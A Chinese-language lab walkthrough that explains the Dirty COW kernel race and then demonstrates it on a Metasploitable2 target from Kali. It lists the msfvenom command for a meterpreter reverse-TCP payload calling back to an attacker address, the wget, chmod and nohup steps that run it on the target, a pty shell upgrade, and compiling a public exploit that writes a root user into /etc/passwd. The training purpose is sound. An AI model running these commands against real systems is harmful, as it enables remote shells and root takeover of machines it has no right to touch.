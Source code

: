 ### 脏牛漏洞提权

简单来说，脏牛漏洞的核心原理是：**利用一个竞争条件，在不应该被写入的文件上，强行执行写入操作**

正常情况下，Linux 内核的**写时复制**机制是为了优化内存使用而设计的。当多个进程共享同一个只读内存页时，它们都指向这个内存页

一旦其中一个进程试图修改这块内存，内核不会让它直接修改，而是会为这个进程**复制一份**内存页，然后让该进程在新复制的内存页上进行修改，而其他进程不受影响

脏牛漏洞的利用就是通过巧妙的方式，在这个“复制”的过程中插入一个攻击操作，使得攻击者能够在内核完成复制之前，就对**原始的只读内存页**执行写入操作

我们可以把脏牛漏洞的提权过程分解为以下几个关键步骤：

1. **创建映射：** 攻击者首先使用 `mmap()` 系统调用，将一个**只读文件**（例如 `/etc/passwd`）映射到内存中
2. **触发写时复制：** 攻击者通过多线程或多进程，不断尝试向这个映射的内存页写入数据。这会触发内核的写时复制机制
3. **竞争条件：** 此时，攻击者使用 `madvise()` 系统调用（或类似手段），以极高的频率通知内核，该内存页不需要了（`MADV_DONTNEED`），可以随时丢弃
4. **漏洞利用：** 这时，一个**竞争条件**就产生了。一个线程在不断尝试写入，另一个线程在不断告诉内核内存页可以被丢弃。在特定的时间窗口内，即内核准备好复制内存页**但尚未完成复制**的时候，攻击者成功地向原始的只读内存页执行了写入操作
5. **写入数据：** 最终，攻击者成功地将恶意数据（例如，一个拥有 **root** 权限的新用户条目）写入到原本应该是只读的 `/etc/passwd` 文件中，从而获得了本地的 **root** 权限

环境准备，一台 MSF2 与 Kali Linux

![](https://pic1.imgdb.cn/item/68d22edec5157e1a882a3371.png)

在 Kali Linux 上使用 MSF 生成一个木马

```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.41.151 LPORT=8001 -f elf > dirty_cow.elf
```

![](https://pic1.imgdb.cn/item/68d22feac5157e1a882a35d6.png)

开启 HTTP 服务

```
python -m http.server 8888
```

![](https://pic1.imgdb.cn/item/68d23012c5157e1a882a35eb.png)

靶机上去请求下载文件

```
wget http://192.168.41.151:8888/dirty_cow.elf
```

![](https://pic1.imgdb.cn/item/68d230b7c5157e1a882a3644.png)

加权限

```sh
chmod +x dirty_cow.elf
```

![](https://pic1.imgdb.cn/item/68d234c1c5157e1a882a61ee.png)

MSF 监听运行

![](https://pic1.imgdb.cn/item/68d23538c5157e1a882a6ae5.png)

运行程序放在后台

```sh
nohup ./dirty_cow.elf &
```

![](https://pic1.imgdb.cn/item/68d23573c5157e1a882a6fae.png)

靶机上线成功

![](https://pic1.imgdb.cn/item/68d235b8c5157e1a882a74ba.png)

使用 Python 提升为交互式命令行

```
shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](https://pic1.imgdb.cn/item/68d236c6c5157e1a882a87b7.png)

[下载 EXP](https://github.com/FireFart/dirtycow)

放到 Kali Linux 上，靶机请求下载解压缩

```sh
wget http://192.168.41.151:8888/dirtycow-master.zip
unzip dirtycow-master.zip
```

![](https://pic1.imgdb.cn/item/68d237a6c5157e1a882a9661.png)

编译 C 文件

```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

`-pthread`

- 为编译和链接启用 POSIX 线程支持
- 在**预处理/编译**阶段会定义宏（例如启用线程相关的特性/代码路径），在**链接**阶段会把需要的线程库和选项加入（相当于同时完成 `-D` 和 `-lpthread` 的效果）
- 推荐用于创建多线程程序；优于单纯用 `-lpthread`，因为 `-pthread` 影响编译器行为和头文件宏

`-lcrypt`

- 链接时加入 `libcrypt`（即 `-lcrypt` 指示链接器使用 `libcrypt.so` / `libcrypt.a`）
- `libcrypt` 提供与密码、散列或 `crypt()` 函数相关的实现（常用于 UNIX 风格的密码散列函数）。如果源代码中使用了 `crypt()` 或该库内的符号，就需要此选项

![](https://pic1.imgdb.cn/item/68d23887c5157e1a882aa829.png)

直接运行需要我们输入新的密码

![](https://pic1.imgdb.cn/item/68d238bfc5157e1a882aab2d.png)

等待一会（参考上面原理）提示用新创建的账号密码登录

![](https://pic1.imgdb.cn/item/68d23920c5157e1a882ab09c.png)

提权成功

![](https://pic1.imgdb.cn/item/68d2395cc5157e1a882ab389.png)